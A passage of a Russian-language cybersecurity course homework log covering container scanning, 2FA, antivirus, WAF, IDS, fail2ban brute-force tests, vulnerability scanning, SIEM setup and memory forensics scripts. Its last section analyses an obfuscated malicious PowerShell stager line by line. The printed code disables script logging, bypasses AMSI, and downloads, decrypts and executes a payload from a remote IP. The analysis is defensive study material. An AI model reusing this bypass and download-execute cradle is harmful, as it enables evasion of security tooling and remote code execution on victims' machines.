 docker run -it -v /etc/passwd:/etc/passwd -u 'id -u':'id -g' -v 'pwd':'pwd' -w 'pwd' ubuntu:18.04 sh

 ```

 ![Tms user](/Lesson_17/%D0%94%D0%97_17_4.png)

 5. Прогнать образ через один из сканеров безопасности проанализировать результаты

 Для проверки на уязвимости был выбран сканер [https://github.com/quay/clair](https://github.com/quay/clair) по причине более понятных мануалов по установке и использованию
 
  Установка [https://aquasecurity.github.io/trivy/v0.55/getting-started/installation/](https://aquasecurity.github.io/trivy/v0.55/getting-started/installation/)

 ```bash

 sudo apt-get install wget apt-transport-https gnupg

 wget -qO - https://aquasecurity.github.io/trivy-repo/deb/public.key | gpg --dearmor | sudo tee /usr/share/keyrings/trivy.gpg > /dev/null

 echo "deb [signed-by=/usr/share/keyrings/trivy.gpg] https://aquasecurity.github.io/trivy-repo/deb generic main" | sudo tee -a /etc/apt/sources.list.d/trivy.list

 sudo apt-get update

 sudo apt-get install trivy

 ```
 Пример использования

 ```bash

 sudo trivy image ubuntu:18.04

 ```
 
 Проверка на наличие уязвимостей docker image ubuntu:18.04

 ![ubuntu:18.04](/Lesson_17/%D0%94%D0%97_17_5_1.png)

 Проверка на наличие уязвимостей docker image juice shop

 ![juice_shop_1](/Lesson_17/%D0%94%D0%97_17_5_2.png)

 ![juice_shop_2](/Lesson_17/%D0%94%D0%97_17_5_3.png)

___
> Пишем Dockerfile
___

 [Создание Dockerfile ](https://admin812.ru/kak-sozdat-obraz-docker-s-pomoshhyu-dockerfile-v-ubuntu-20-04-lts.html)

 [Настройка конфигурации nginx](https://serverspace.ru/support/help/ustanovka-i-zapusk-nginx-v-docker-kontejnere-na-ubuntu/?utm_source=google.com&utm_medium=organic&utm_campaign=google.com&utm_referrer=google.com)

 Результат:

 ![Nginx](/Lesson_17/%D0%94%D0%97_17_6_1.png)

</details>


<details><summary>Занятие №18 Защита инфраструктуры приложений</summary>

___
> Установить 2FA на linux (Google authenticator)
___

 [Мануал настройки Google Authenticator](https://www.linuxbabe.com/ubuntu/two-factor-authentication-ssh-key-ubuntu)

 ![2FA](/Lesson_18/%D0%94%D0%97%2018_1.jpg)

 
 ___
> Online песочница any.run
___
 
 ![any.run](/Lesson_18/%D0%94%D0%97%2018_2.jpg)

 
</details>



<details><summary>Занятие №19 Основные виды СЗИ</summary>

___
> Установить антивирус ClamAV
___


 Cлайды 45-48

 [Мануал ClamAV](/Lesson_19/19_szi.pdf)
 
 ![ClamAV](/Lesson_19/%D0%94%D0%97_19_1.png)

___
> Установить YARA
___
 
 [Мануал по установке YARA](https://yara.readthedocs.io/en/latest/gettingstarted.html)

 [Мануал по запуску YARA](https://yara.readthedocs.io/en/stable/commandline.html)

 ![YARA_target](/Lesson_19/%D0%94%D0%97_19_2_1.png)
 
 ![YARA_rule_&_scan](/Lesson_19/%D0%94%D0%97_19_2_2.png)

___
> Установить WAF (nginx + Modsecurity)
___
 
 [Мануал по настройке WAF Modsecurity+Nginx](https://www.linuxbabe.com/security/modsecurity-nginx-debian-ubuntu)

 В мануале ниже на моменте настройки конфига nginx (/etc/nginx/nginx.conf) необходимо выполнить пятый этап из мануала выше.

 [Мануал по настройке WAF Modsecurity+Nginx](https://github.com/sm1lexops/Profile_challenges?tab=readme-ov-file#5-%D0%BF%D1%80%D0%B5%D0%B4%D0%BB%D0%BE%D0%B6%D0%B8%D1%82%D0%B5-%D1%81%D1%85%D0%B5%D0%BC%D1%83-%D0%B8%D0%BD%D1%82%D0%B5%D0%B3%D1%80%D0%B0%D1%86%D0%B8%D0%B8-web-application-firewall-waf-%D0%B2-%D0%B8%D0%BD%D1%84%D1%80%D0%B0%D1%81%D1%82%D1%80%D1%83%D0%BA%D1%82%D1%83%D1%80%D0%B5-%D0%BD%D0%B0%D0%BF%D0%B8%D1%88%D0%B8%D1%82%D0%B5-%D0%BA%D0%BE%D0%BD%D1%84%D0%B8%D0%B3%D1%83%D1%80%D0%B0%D1%86%D0%B8%D1%8E-%D0%B4%D0%BB%D1%8F-%D0%B2%D0%BD%D0%B5%D0%B4%D1%80%D0%B5%D0%BD%D0%B8%D1%8F-waf-%D0%BD%D0%B0%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80-modsecurity-%D0%B2-nginx-%D0%BD%D0%B0%D0%BF%D0%B8%D1%88%D0%B8%D1%82%D0%B5-%D0%BA%D0%BE%D0%BD%D0%BA%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B5-%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80%D1%8B-%D0%BF%D1%80%D0%B0%D0%B2%D0%B8%D0%BB-%D0%B1%D0%B5%D0%B7%D0%BE%D0%BF%D0%B0%D1%81%D0%BD%D0%BE%D1%81%D1%82%D0%B8-%D0%BA%D0%BE%D1%82%D0%BE%D1%80%D1%8B%D0%B5-%D0%B2%D1%8B-%D0%B1%D1%8B-%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D0%BD%D0%B8%D0%BB%D0%B8-%D0%B2-waf-%D0%BD%D0%B0%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80-%D1%84%D0%B8%D0%BB%D1%8C%D1%82%D1%80%D0%B0%D1%86%D0%B8%D1%8F-sql-%D0%B8%D0%BD%D1%8A%D0%B5%D0%BA%D1%86%D0%B8%D0%B9-xss-%D0%B0%D1%82%D0%B0%D0%BA-%D0%B1%D0%BB%D0%BE%D0%BA%D0%B8%D1%80%D0%BE%D0%B2%D0%BA%D0%B0-%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%BD%D1%8B%D1%85-%D0%BF%D0%B0%D1%82%D1%82%D0%B5%D1%80%D0%BD%D0%BE%D0%B2)

 ![Результат](/Lesson_19/waf%20nginx.PNG)

</details>


<details><summary>Занятие №20 Основные виды СЗИ </summary>

___
> Установка и тестирование Suricata IDS
___

 [Мануал установки и настройки Suricata (стр. 23-39)](/Lesson_20/20_SZI.pdf)

 [Git с правилами на детектирование разных режимов работы сетевого сканера nmap](https://github.com/aleksibovellan/opnsense-suricata-nmaps)

 Конфиг suricata (/etc/suricata/suricata.yaml)

 ![suricata.yaml_1](/Lesson_20/%D0%94%D0%97_20_yaml_1.png)

 ![suricata.yaml_2](/Lesson_20/%D0%94%D0%97_20_yaml_2.png)

 Кастомные правила для определения работы nmap

 ![local.rules](/Lesson_20/%D0%94%D0%97_20_rules_1.png)

 Лог сработки правила (/var/log/suricata/fast.log)

 ![local.rules](/Lesson_20/%D0%94%D0%97_20_log_1.png)
___
> Тест работы fail2ban
___
 
 [Мануал установки и настройки Suricata (стр. 13-16)](/Lesson_20/20_SZI.pdf)

 Логи fail2ban (блокировка по умолчанию осуществляется на 10 минут) /var/log/fail2ban.log

 ![fail2ban.log_1](/Lesson_20/%D0%94%D0%97_20_f2b_1.png)

 ![fail2ban.log_2](/Lesson_20/%D0%94%D0%97_20_f2b_2.png)

 Брутфорс при помощи Hydra до начала работы fail2ban и после начала работы fail2ban

 ![Hydra до](/Lesson_20/%D0%94%D0%97_20_h_1.png)

 ![Hydra после](/Lesson_20/%D0%94%D0%97_20_h_2.png)

 Брутфорс при помощи Medusa до начала работы fail2ban и после начала работы fail2ban

 ![Medusa до](/Lesson_20/%D0%94%D0%97_20_m_1.png)

 ![Medusa после](/Lesson_20/%D0%94%D0%97_20_m_2.png)

</details>



<details><summary>Занятие №21 Audit </summary>

___
> Ознакомление с документацией
___

 [NIST standards docs](https://csrc.nist.gov/publications/sp800)

 [OWASP Top Ten](https://owasp.org/www-project-top-ten/)

 [CIS рекомендации](https://www.cisecurity.org/cis-benchmarks)

 [PCI DSS библиотека](https://www.pcisecuritystandards.org/document_library/)

</details>



<details><summary>Занятие №22 Vulnerability Assessment </summary>

___
> Scanner OpenVAS
___

 [Установка OpenVAS Docker compose](https://greenbone.github.io/docs/latest/22.4/container/index.html#)

 [Установка OpenVAS способом компиляции (неполучилось нормально скомпилировать)](https://greenbone.github.io/docs/latest/22.4/source-build/index.html)

 [Готовый образ OpenVAS](https://www.greenbone.net/en/greenbone-free/#toggle-id-1)

 [Мануал по работе с OpenVAS](https://habr.com/ru/articles/203766/)
 
 ![Сканирование_1](/Lesson_22/ДЗ_22_1.png)

 ![Сканирование_2](/Lesson_22/ДЗ_22_5.png)

 ![Уязвимость](/Lesson_22/ДЗ_22_2.png)
 
 Устранение данной уязвимости:
  Програмное решение: 

      - обновить версию ssh

  Административное решение:

       - вход только по сертификату

       - вход только с разрешенных хостов

       - отключить SSH

       - двухфакторная аутентификация


___
> Зарегистрироваться на opencve.io
___
 
 ![OpenCVE_1](/Lesson_22/ДЗ_22_3.png)

 ![OpenCVE_2](/Lesson_22/ДЗ_22_4.png)
___
> Установить PatrOwl
___

 [Мануал по запуску docker версии Partowl ](https://github.com/Patrowl/PatrowlDocs/blob/master/installation/installation-guide.md)

 ![PatrOwl](/Lesson_22/ДЗ_22_6.png)

</details>



<details><summary>Занятие №23 Event Management </summary>

___
> Изучаем на лабораторных стендах Splunk SIEM
___

 Лабораторные работы по анализу логов достаточно простые.

 Для выполнения лабораторных работ по анализу ВПО необходимо больше практики в обращении с инструментами анализа ПО.

 ![Лабы](/Lesson_23/ДЗ_23_1.png)

___
> Установка EFK стэка с помощью docker-compose
___
 
Не получилось поднять ELK стэк так как не хочет подниматься контейнер с коннектором fluent. Точнее по какой-то причине не устанавливается fluent-plugin-elasticsearch.

Были испробованы:
  
  - использование VPN
  - различные конфиги установки (как из обычных мануалов, так и из сгенерированных AI)
  - различные docker image (как официальные fluent, так и кастомные под ELK стэк)

Вместо EFK был развернут ELK 

[Мануал по запуску Docker compose ELK](https://www.elastic.co/blog/getting-started-with-the-elastic-stack-and-docker-compose)

![Результат](/Lesson_23/ДЗ_23_2.png)

!Решение проблемы найдено. EFK заработал.

[Мануал](https://www.howtoforge.com/how-to-set-up-an-elasticsearch-fluentd-and-kibana-efk-logging-stack-on-ubuntu-22-04/)

Необходимые изменения в Dockerfile fluent 

```docker

FROM fluent/fluentd:v1.14-1

USER root

RUN gem update --system && \
gem install fluent-plugin-elasticsearch --source http://rubygems.org

```

[Источник решения](https://stackoverflow.com/questions/71120621/efk-system-is-build-on-docker-but-fluentd-cant-start-up)

![Результат](/Lesson_23/ДЗ_23_elk.png)

___
> Установка SIEM Wazuh с помощью docker-compose
___

[Мануал по запуску Docker compose Wazuh (single node)](https://documentation.wazuh.com/current/deployment-options/docker/docker-installation.html)

Времени на полную развертку Wazuh пока не было, но на курсах НЦОТ выполняли установку wazuh + win/linux агенты, написание правил корреляции, интеграция с Hive + оповещение об инцедентах высокого уровня на электронную почту.

![Wazuh](/Lesson_23/ДЗ_23_Wazuh.png)

</details>



<details><summary>Занятие №24-25 Forensics, Incident response </summary>

___
> Изучить основные виды HTTP methods and requests
___

 [Основные виды HTTP methods and requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)

 ___
> Установить volatility на ubuntu
___
 
 AVML необходим для создания файла дампа памяти. Volatility для работы с файлом дампа памяти.

 [Мануал Volatility+AVML](https://docs.google.com/document/d/1v7u6HVrae1R4fCCs1SNAGryjy5tmJCPDKq2Hyhqd9Fo/edit?pli=1&tab=t.0)

 [Мануал по получению таблицы символов на Ubuntu](https://www.iblue.team/memory-forensics-1/volatility-plugins/build-custom-linux-profile-for-volatility)

 !Важно. Скопировать полученный json файл необходимо в /путь к папке/volatility3/volatility3/symbols/linux/ папки linux по умолчанию нет, ее надо создать. То есть в клонированном репозитории необходимо зайти в одноименную папку volatility3 и уже в ней искать папку symbols.

 ![Результат](/Lesson_24_25/ДЗ_25_vol.png)

</details>


<details><summary>Занятие №26 Scripting pt.1 </summary>

___
> Написать красочный интерактивный bash-script для автоматизации ваших часто повторяемых действий 
___

Был написан скрипт установки и запуска volatility3 с возможностью выбора системы Ubuntu или Debian.

[Main](/Lesson_26/main)

[Ubuntu](/Lesson_26/ubuntu)

[Debian](/Lesson_26/debian)

Скрипты размещаются в домашнюю директорию пользователя (~) и запускаются из нее же.

Main - обновляет систему; проверяет наличие и устанавливает в случае необходимости приложения wget, python, git; дает возможность выбора варианта установки volatility в зависимости от системы.

Ubuntu - устанавиливает avml, dwarf2json, volatility3; снимает дамп памяти; создает символьную таблицу и размещает ее внутри директории volotility3; дает возможность выбрать модуль первого сканирования дампа памяти.

Debian - устанавиливает avml, dwarf2json, volatility3; снимает дамп памяти; создает символьную таблицу и размещает ее внутри директории volotility3; дает возможность выбрать модуль первого сканирования дампа памяти.

Main
``` bash

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'

echo -e "$BLUE Welcome to install Volatility3 $RESET"
sudo apt-get update >/dev/null

if dpkg -l python3-full >/dev/null
then echo -e "$GREEN Already installed python3-full $RESET"
else sudo apt-get install -y pyton3-full
fi

if dpkg -l python3-pip >/dev/null
then echo -e "$GREEN Already installed python3-pip $RESET"
else sudo apt-get install -y pyton3-pip
fi

if dpkg -l wget >/dev/null
then echo -e "$GREEN Already installed wget $RESET"
else sudo apt-get install -y wget 
fi

if dpkg -l git >/dev/null
then echo -e "$GREEN Already installed git $RESET"
else sudo apt-get install -y git 
fi

if dpkg -l golang-go >/dev/null
then echo -e "$GREEN Already installed golang-go $RESET"
else sudo apt-get install -y golang-go 
fi

PS3='Select system for install volatility3: '
sys=("Ubuntu" "Debian" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Ubuntu")
            echo -e  "$GREEN Install volatility3 for ubuntu $RESET"
	    ~/ubuntu
            break
            ;;
        "Debian")
            echo -e "$GREEN Install volatility3 for ubuntu $RESET"
	    ~/debian
            break
            ;;
	"Exit")
	    echo -e "$RED User requested exit $RESET"
	    exit 0
	    ;;
        *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```

Debian
```bash 

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'


cd ~ 

echo -e "$GREEN Download the latest release of avml $RESET"

wget https://github.com/microsoft/avml/releases/download/v0.14.0/avml

echo -e "$GREEN Make the file executable $RESET"

sudo chmod +x avml


echo -e "$GREEN Move the executable to a directory in /usr/local/bin $RESET"

sudo mv avml /usr/local/bin/

if avml --help >/dev/null
then echo -e "$GREEN AVML is installed $RESET"
else echo -e "$RED AVML is not installed $RESET" && exit 0
fi

echo -e "$GREEN Create memory dump $RESET" 

sudo avml ~/memory.dmp
sudo chown $USER:$USER memory.dmp
sudo chmod 755 memory.dmp


echo -e "$GREEN Install Volatility3 $RESET"

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

echo -e "$GREEN Install Volatility3 requirements $RESET"


pip3 install -r requirements-minimal.txt
pip3 install -r requirements.txt

echo -e "$GREEN Install the corresponding debug symbols $RESET"

sudo tee /etc/apt/sources.list.d/debug.list << EOF
deb http://deb.debian.org/debian-debug/ $(lsb_release -cs)-debug main
deb http://deb.debian.org/debian-debug/ $(lsb_release -cs)-proposed-updates-debug main
EOF

sudo apt update
sudo apt install --yes linux-image-$(uname -r)-dbg


echo -e "$GREEN Instal dwarf2json $RESET"
cd 
git clone https://github.com/volatilityfoundation/dwarf2json.git
cd dwarf2json
go build
sudo cp dwarf2json /usr/local/bin/

if dwarf2json --help >/dev/null
then echo -e "$GREEN dwarf2json is installed $RESET"
else echo -e "$RED dwarf2json is not installed $RESET" && exit 0
fi

echo -e "$GREEN Increase swap space $RESET"
sudo fallocate -l 4G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile

cd /usr/lib/debug/boot/
chmod 755 vmlinux-$(uname -r)
chown $USER:$USER vmlinux-$(uname -r)
sudo mkdir ~/volatility3/volatility3/symbols/linux
sudo dwarf2json linux  --elf /usr/lib/debug/boot/vmlinux-$(uname -r) --system-map /boot/System.map-$(uname -r) > Debian-$(uname -r).json
sudo cp ~/Debian-$(uname -r).json ~/volatility3/volatility3/symbols/linux/
cd ~/volatility3

PS3='Select module for volatility3: '
sys=("Lsof" "Pstree" "Bash" "Check_creds" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Lsof")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.lsof.Lsof
            break
            ;;
         "Pstree")
            echo -e  "$GREEN Plugin for listing processes in a tree based on their parent process ID $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.pstree.PsTree
            break
            ;;
        "Bash")
            echo -e  "$GREEN Recovers bash command history from memory $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.bash.Bash
            break
            ;;
        "Check_creds")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.check_creds.Check_creds
            break
            ;;
        "Exit")
            echo -e "$RED User requested exit $RESET"
            exit 0
            ;;
             *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```

Ubuntu
```bash 

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'

cd 

echo -e "$GREEN Download the latest release of avml $RESET"

wget https://github.com/microsoft/avml/releases/download/v0.14.0/avml

echo -e "$GREEN Make the file executable $RESET"

sudo chmod +x avml


echo -e "$GREEN Move the executable to a directory in /usr/local/bin $RESET"

sudo mv avml /usr/local/bin/

if avml --help >/dev/null
then echo -e "$GREEN AVML is installed $RESET"
else echo -e "$RED AVML is not installed $RESET" && exit 0
fi

echo -e "$GREEN Create memory dump $RESET" 

sudo avml ~/memory.dmp
sudo chown $USER:$USER memory.dmp
sudo chmod 755 memory.dmp


echo -e "$GREEN Install Volatility3 $RESET"

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

echo -e "$GREEN Install Volatility3 requirements $RESET"


pip3 install -r requirements-minimal.txt
pip3 install -r requirements.txt

echo -e "$GREEN Install the corresponding debug symbols $RESET"

release=$(lsb_release -cs)

sudo tee /etc/apt/sources.list.d/ddebs.list <<EOF

deb http://ddebs.ubuntu.com $release main restricted universe multiverse
deb http://ddebs.ubuntu.com $release-updates main restricted universe multiverse
deb http://ddebs.ubuntu.com $release-proposed main restricted universe multiverse


EOF

wget -O - http://ddebs.ubuntu.com/dbgsym-release-key.asc | sudo apt-key add -


sudo apt update
sudo apt install linux-image-$(uname -r)-dbgsym

# Debug kernel is at: /usr/lib/debug/boot/vmlinux-$(uname -r)
echo -e "$GREEN Instal dwarf2json $RESET"
cd 
git clone https://github.com/volatilityfoundation/dwarf2json.git
cd dwarf2json
go build
sudo cp dwarf2json /usr/local/bin/
if dwarf2json --help >/dev/null
then echo -e "$GREEN dwarf2json is installed $RESET"
else echo -e "$RED dwarf2json is not installed $RESET" && exit 0
fi


cd /usr/lib/debug/boot/
chmod 755 vmlinux-$(uname -r)
chown $USER:$USER vmlinux-$(uname -r)
sudo mkdir ~/volatility3/volatility3/symbols/linux
sudo dwarf2json linux  --elf /usr/lib/debug/boot/vmlinux-$(uname -r) --system-map /boot/System.map-$(uname -r) > ~/Ubuntu-$(uname -r).json
sudo cp ~/Ubuntu-$(uname -r).json ~/volatility3/volatility3/symbols/linux/
cd ~/volatility3

PS3='Select module for volatility3: '
sys=("Lsof" "Pstree" "Bash" "Check_creds" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Lsof")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.lsof.Lsof
            break
            ;;
         "Pstree")
            echo -e  "$GREEN Plugin for listing processes in a tree based on their parent process ID $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.pstree.PsTree
            break
            ;;
        "Bash")
            echo -e  "$GREEN Recovers bash command history from memory $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.bash.Bash
            break
            ;;
        "Check_creds")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.check_creds.Check_creds
            break
            ;;
        "Exit")
            echo -e "$RED User requested exit $RESET"
            exit 0
            ;;
             *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```
 
___
> Написать powershell-script
___
 
Скрипт. который подключается по протоколу SMB к виртуальным машинам и копирует отфильтрованные журналы в одно место для анализа, передачи или сохранения.

```powershell

#массив с именами хостов, с которых необходимо снять лог-файлы.
 
$files = 'PROGRAMMERS-01', 'PROGRAMMERS-03', 'PROGRAMMERS-04', 'PROGRAMMERS-05', 'PROGRAMMERS-06', 'PROGRAMMERS-07', 'PROGRAMMERS-08', 'PROGRAMMERS-09', 'PROGRAMMERS-10', 'PROGRAMMERS-11', 'PROGRAMMERS-12', 'PROGRAMMERS-13', 'PROGRAMMERS-14', 'PROGRAMMERS-15', 'PROGRAMMERS-16', 'PROGRAMMERS-17', 'PROGRAMMERS-18'
 
#рекурсивная функция, которая подставляет значения из массива.
#wevtutil - функция для работы с журналами событий windows. epl - команда для экспорта системных логов. system - название журнала, который необходимо экспортировать
#\\$file\c$\$file.evtx - путь куда экспортируются лог-файл. По неизвестной мне причине скрипт работает только если сохранять лог локально на ту систему с которой снимаются логи.
#/r - параметр, который отвечает за то, чтобы команда отрабатывала на удаленном хосте.
#/q - фильтр запроса.
 
foreach ($file in $files) {
 
wevtutil epl system \\$file\c$\$file.evtx /r:$file /q:*[System[EventID=7045]]
 
}
 

$sourceFilePath = "c$"
$destinationFolderPath = "c$\test"
 
foreach ($file in $files) {
    $sourceFullPath = "\\$file\c$\$file.evtx"
    $destinationFullPath = "\\rakovskaja-13\$destinationFolderPath\$file.evtx"
    Copy-Item -Path $sourceFullPath -Destination $destinationFullPath
}  
 
 
foreach ($file in $files) {
Remove-Item -Path "\\$file\C$\$file.evtx"
 
}

```

</details>



<details><summary>Занятие №27 Scripting, web, python  pt. 2 </summary>

___
> Написать красочный интерактивный python-script для автоматизации ваших часто повторяемых действий, либо парсинга сайта для получения нужной информации
___

Python скрипт для получения информации о погоде с сайта api.open-meteo.com в городе Минске.

[weather_script](/Lesson_27/weather.py)

```pyton

import requests
from datetime import datetime, timedelta

def get_weather_forecast(latitude, longitude, past_days=10):
    base_url = "https://api.open-meteo.com/v1/forecast"
    params = {
        "latitude": latitude,
        "longitude": longitude,
        "past_days": past_days,
        "hourly": "temperature_2m,relative_humidity_2m,wind_speed_10m"
    }

    response = requests.get(base_url, params=params)
    
    if response.status_code == 200:
        data = response.json()
        return process_weather_data(data)
    else:
        return "Ошибка при получении данных о погоде"

def process_weather_data(data):
    hourly_data = data['hourly']
    current_time = datetime.utcnow()
    
    # Находим индекс текущего времени
    time_index = hourly_data['time'].index(current_time.strftime("%Y-%m-%dT%H:00"))
    
    current_temp = hourly_data['temperature_2m'][time_index]
    current_humidity = hourly_data['relative_humidity_2m'][time_index]
    current_wind_speed = hourly_data['wind_speed_10m'][time_index]
    
    forecast = f"Текущая погода в Минске:\n"
    forecast += f"Температура: {current_temp}°C\n"
    forecast += f"Относительная влажность: {current_humidity}%\n"
    forecast += f"Скорость ветра: {current_wind_speed} м/с\n\n"
    
    forecast += "Прогноз на ближайшие 24 часа:\n"
    for i in range(time_index + 1, time_index + 25):
        if i < len(hourly_data['time']):
            time = datetime.fromisoformat(hourly_data['time'][i])
            temp = hourly_data['temperature_2m'][i]
            humidity = hourly_data['relative_humidity_2m'][i]
            wind_speed = hourly_data['wind_speed_10m'][i]
            forecast += f"{time.strftime('%Y-%m-%d %H:00')}: {temp}°C, {humidity}%, {wind_speed} м/с\n"
    
    return forecast

# Координаты Минска
latitude = 53.9  # Широта Минска
longitude = 27.5667  # Долгота Минска

print(get_weather_forecast(latitude, longitude))

```
___
>	Расписать действия данного powershell
___

![Script](/Lesson_27/ДЗ_25_vol.png)

IF ($PSVersionTAbLE.PSVErsiON.MaJor-ge3) {
Эта строка проверяет версию PowerShell. $PSVersionTable - это автоматическая переменная, содержащая информацию о версии PowerShell. Условие проверяет, является ли основная (Major) версия PowerShell 3 или выше. Если да, выполняется код внутри блока.

$GPF=[REF].AsSemBLY.GETTyPE('System.Management.Automation.Utils')."GETFiel d"('cachedGroupPolicySettings',"N'+'onPublic,Static');
Эта строка использует рефлексию для доступа к скрытому статическому полю 'cachedGroupPolicySettings' в классе System.Management.Automation.Utils. [REF] - это сокращение для System.Reflection.Assembly. Метод GetField используется для получения информации о поле, которое является непубличным (NonPublic) и статическим (Static).

If ($GPF) {
Проверяет, успешно ли получено поле в предыдущей строке. Если $GPF не null, выполняется код внутри блока.

$GPC=$GPF.GEtVaLue($NULL);
Получает значение поля cachedGroupPolicySettings. $NULL передается как параметр, так как это статическое поле и не требует экземпляра объекта.

IF ($GPC['ScriptB'+'lockLogging]) {
Проверяет, существует ли ключ 'ScriptBlockLogging' в полученных настройках групповой политики. Строка разделена на части для усложнения обнаружения.

$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
$GPC['ScriptB'+'lockLogging']['EnableScriptBlockinvocationLogging']=0 }
Эти строки отключают логирование блокировки скриптов и логирование вызовов скриптовых блоков, устанавливая соответствующие значения в 0.

$vAl=[CoLLeCtionS.GENEric.DICtiONARy[striNg,SYstEm.ObjECT]]::nEw();
Создает новый экземпляр словаря (Dictionary), который будет использоваться для хранения настроек. Ключи - строки, значения - объекты.

$Val.ADd('EnableScriptB'+'lockLogging',0);
$VAL.AdD('EnableScriptBlockinvocationLogging',0);
Добавляет в созданный словарь два ключа, оба со значением 0, что соответствует отключению логирования.

$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShelllS criptB'+'lockLogging']=$VAI
Применяет новые настройки, добавляя их в кэш групповой политики для указанного пути реестра.

} ELSe
[ScriPtBLocK]."GETFieLd"("signatures",'NonPublic,Static').SEtValuE($NULL,(New-OBj eCtColLEctIONs.GENERic.HaShSEt[sTrING]))
Если предыдущие действия не удались, этот код очищает подписи скриптовых блоков, устанавливая для поля "signatures" пустой HashSet.

[ReF].AsSembLY.GetTYpE('System.Management.Automation.AmsiUtils")?{S_)
%(
$_.GetFleID('amsilnitFailed',"NonPublic,Static').SeTValUe($NULL,$True)};
Эти строки пытаются отключить AMSI (Antimalware Scan Interface), устанавливая флаг 'amsiInitFailed' в значение True. Это может позволить обойти антивирусное сканирование.

[ SysteM.NEt .SERvICePolnTMANAgeR]::ExPEcT100COntinUe=0;
Отключает ожидание ответа 100-Continue от сервера при HTTP-запросах.

$WC= New-ObJECtSYstEm.NEt .WEBCLieNT;
Создает новый объект WebClient для выполнения веб-запросов.

Su='Mozilla/5.0(WindowsNT6.1;WOW64;Trident/7.0;rv:11.0)likeGecko';
$wc.HeAdErS.ADD('User-Agent',Su);
Устанавливает пользовательский User-Agent для веб-клиента, маскируясь под Internet Explorer 11.

$Wc.PRoXY=[ SYstem.NEt .WEbRequESt]::DEfAulTWeBProxY;
$wC.ProxY.CRedENTiAls=[ SysTEM.NEt .CrEDeNTialCaCHE]::DEFAULtNeTworKCrEd EnTiaLs;
Настраивает прокси-сервер для веб-клиента, используя системные настройки прокси и учетные данные по умолчанию.

$Script:Proxy=$wc.Proxy;
Сохраняет настройки прокси в глобальную переменную скрипта для возможного дальнейшего использования.

$K=[SYsTEM.Text.ENcodiNg]::ASCII.GETBYtES('99754106633f94d350db34d548d609 1a");
Создает массив байтов из заданной строки, который будет использоваться как ключ для шифрования/дешифрования.

$R={...};
Определяет анонимную функцию (лямбда-выражение) для реализации алгоритма дешифрования (предположительно RC4).

$ser='http://10.6.100.123:80'; $t="/news.p hp';
Устанавливает адрес сервера и путь для загрузки дополнительных данных.

$WC.HeadERS.AdD("Cookie","session=8xD4koAuu7qHah4KQzwZ/kDq40c=");
Добавляет куки к запросу, возможно, для аутентификации на удаленном сервере.

$DAtA=$WC.DoWNloaDDAtA($SER+$T);
Загружает данные с указанного URL.

$IV=$DatA[0…3]; $datA=$DATa[4…$datA.lengT H];
Извлекает первые 4 байта как вектор инициализации (IV) и остальные данные как зашифрованное содержимое.

-join[ChAr[]](&$R$daTA($IV+$K))|IEX
Расшифровывает данные с помощью функции $R, преобразует результат в строку и выполняет его как PowerShell-код с помощью оператора IEX (Invoke-Expression).

Этот скрипт представляет собой сложную вредоносную программу, предназначенную для обхода систем безопасности, загрузки и выполнения дополнительного кода с удаленного сервера. Он использует различные методы обфускации и техники обхода защиты, что делает его крайне опасным.

</details>